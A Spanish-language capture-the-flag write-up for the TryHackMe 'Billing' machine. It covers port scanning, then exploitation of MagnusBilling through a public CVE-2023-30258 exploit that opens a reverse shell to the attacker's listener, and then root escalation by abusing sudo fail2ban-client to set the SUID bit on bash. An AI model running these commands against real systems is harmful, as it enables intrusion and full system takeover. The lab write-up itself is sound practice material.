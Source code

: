 ```yaml
---
description: '✍️ Autor: tryhackme, RunasRs 🔍 Dificultad: Fácil'
---
```


# Billing

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.118.35
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap 10.10.118.35
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo el puerto **22** perteneciente al servicio **SSH,** el puerto **80** perteneciente al servicio **HTTP** y el puerto **3306** perteneciente a **MySQL** están abiertos, por lo que se procederá a indagar más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80,3306 -v 10.10.118.35
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-20 213144.png" alt=""><figcaption></figcaption></figure>

Es un panel de **MagnusBilling** por lo que ahora haremos un escaneo de directorios por si hay algo relevante.

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,htm,php,txt,xml,js -u http://10.10.118.35
```

Encontramos un directorio interesante donde nos menciona la versión y así poder encontrar vulnerabilidad.&#x20;

<div><figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure> <figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-20 215053.png" alt=""><figcaption></figcaption></figure></div>

### 🚀 **EXPLOTACIÓN**

{% @github-files/github-code-block url="https://github.com/tinashelorenzi/CVE-2023-30258-magnus-billing-v7-exploit" %}

```
git clone https://github.com/tinashelorenzi/CVE-2023-30258-magnus-billing-v7-exploit.git
cd CVE-2023-30258-magnus-billing-v7-exploit
```

Realizamos la Reverse Shell.

```
nc -nlvp 4444
python3 exploit.py -t 10.10.118.35 -a 10.8.146.101 -p 4444
```

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hacemos tratamiento de la TTY.

```
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

Tenemos permiso sudo del binario **fail2ban-client**.

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-fail2ban-client-privilege-escalation/" %}

```bash
sudo /usr/bin/fail2ban-client status
sudo /usr/bin/fail2ban-client get ast-cli-attck actions
sudo /usr/bin/fail2ban-client set ast-cli-attck addaction evil
sudo /usr/bin/fail2ban-client set ast-cli-attck action evil actionban "chmod +s /bin/bash"
sudo /usr/bin/fail2ban-client set ast-cli-attck banip 1.2.3.5
/bin/bash -p
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
